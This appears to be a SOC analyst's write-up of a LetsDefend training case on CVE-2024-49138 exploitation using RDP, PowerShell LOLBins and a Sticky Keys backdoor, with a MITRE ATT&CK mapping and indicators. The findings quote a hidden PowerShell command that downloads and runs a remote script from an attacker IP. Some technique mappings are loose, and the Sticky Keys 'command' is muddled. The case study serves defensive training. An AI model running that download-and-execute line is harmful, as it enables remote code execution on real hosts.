 # 👨‍💻 LetsDefend Case Study #1: CVE-2024-49138 Exploitation (SOC335) — LOLBins, RDP and Sticky Keys Abuse

## 🚨 Incident Overview
This is the first case study from **LetsDefend**, where we investigate the exploitation of **CVE-2024-49138**. The incident was triggered due to suspicious behavior patterns indicating the possible exploitation of the vulnerability. The core of the exploitation involved **Remote Desktop Protocol (RDP)** access, **Living Off the Land Binaries (LOLbins)**, and abuse of the **Sticky Keys backdoor** technique for persistence.

### 🚨 Incident Details
- **Suspicious Process**: `svohost.exe` (suspiciously similar to `svchost.exe`, a common process targeted by attackers to disguise malicious processes)
- **Parent Process Path**: `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
- **Exploitation Trigger**: Unusual behavior patterns associated with the hash, suggesting a **CVE-2024-49138** exploitation attempt.

### 🚨 Key Investigation Findings
- The attacker used **PowerShell** to execute the following command:
    ```powershell
    "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -ExecutionPolicy Bypass -NoP -W Hidden -C IEX(New-Object Net.WebClient).DownloadString('http://18.223.186.129:4444/MBS.ps1')
    ```
- **RDP Connection**: The attacker successfully connected to the host with IP `172.16.17.207` using **RDP** over Port `3389`.
- **Sticky Keys Abuse**: The attacker used the **Sticky Keys backdoor technique** as a persistence mechanism by replacing `sethc.exe` with the following command:
    ```powershell
    C:\Windows\System32\Sethc.exe /AccessibilitySoundAgent
    ```
- The attacker downloaded a ZIP file (`service-installer.zip`) and extracted it using the password **infected**, which contained the malware `svohost.exe`.
- A failed authentication attempt was made to gain **admin** access, which failed due to invalid credentials (`0xC000006D` error).

### 🚨 Attack Steps & Techniques
The attacker utilized the following techniques in line with the **MITRE ATT&CK framework**:

| **Step** | **Tactic** | **Technique** |
|----------|------------|---------------|
| 1. RDP login | Initial Access | T1133 |
| 2. PowerShell execution | Execution | T1059.001 |
| 3. Admin priv. check | Discovery / Priv. Esc | T1033 / T1068 |
| 4. Sticky Keys backdoor | Persistence | T1547.008 |
| 5. Defender bypass | Defense Evasion | T1562.001 |
| 6. Lateral RDP | Lateral Movement | T1021.001 |
| 7. Payload staging | Command & Control | T1105 |
| 8. Tool execution | Execution | T1059.001 |
| 9. LOLBin usage | Defense Evasion | T1218.001 |

### 🚨 Key Indicators of Compromise (IOCs)
- **Malicious Executable**: `svohost.exe`
- **External IP**: `185.107.56.141`
- **Malicious URL**: `http://18.223.186.129:4444/MBS.ps1`
- **Ports**: `3389` (RDP)
- **ZIP File Downloaded**: `service-installer.zip`
- **Password for ZIP**: `infected`

### 🚨 Why is this a Remote Code Execution (RCE)?
The attacker is executing code from a remote source (`MBS.ps1`), which constitutes a **Remote Code Execution (RCE)**, even though a local binary (e.g., **PowerShell**) is used to execute it.

### 🚨 Incident Response Actions
- **Containment**: The first step was containment of the affected host.
- **Mitigation**: Actions included identifying the attacker’s methods, stopping RDP access, disabling the Sticky Keys backdoor, and scanning for other potential IOCs.

---

## 📚 MITRE ATT&CK Mapping
This case study is closely related to several tactics and techniques outlined in the **MITRE ATT&CK framework**, and the incident can be mapped to the following:
- **Initial Access**: RDP login (T1133)
- **Execution**: PowerShell abuse (T1059.001)
- **Persistence**: Sticky Keys backdoor (T1547.008)
- **Defense Evasion**: PowerShell with `-ExecutionPolicy Bypass` (T1562.001)
- **Command and Control**: Payload staging (T1105)
- **Lateral Movement**: RDP lateral movement (T1021.001)
- **Credential Dumping**: Admin priv. check (T1033 / T1068)

---

## 🧪 Key Takeaways
This incident highlights the use of common, trusted system binaries (**PowerShell**, **Sticky Keys**) to bypass detection mechanisms and escalate privileges. Additionally, it emphasizes the importance of monitoring **RDP** access and securing system services to prevent lateral movement and persistence mechanisms.

---

## 💡 Conclusion
This case study provides a great example of the need for vigilance in detecting **RDP** abuse, **PowerShell** exploitation, and **local persistence techniques** like Sticky Keys. The attacker used **Living Off the Land Binaries (LOLbins)** and sophisticated **defense evasion** tactics to carry out the attack stealthily.

---

## 🔗 Links
- [LetsDefend Case Study #1](https://myitjourney12.wordpress.com/2025/04/15/letsdefend-case-1-soc335-cve-2024-49138-exploitation-detected-lolbin-and-rce/)
- [GitHub Repository](https://github.com/BNarlioglu/LetsDefend-Investigations)
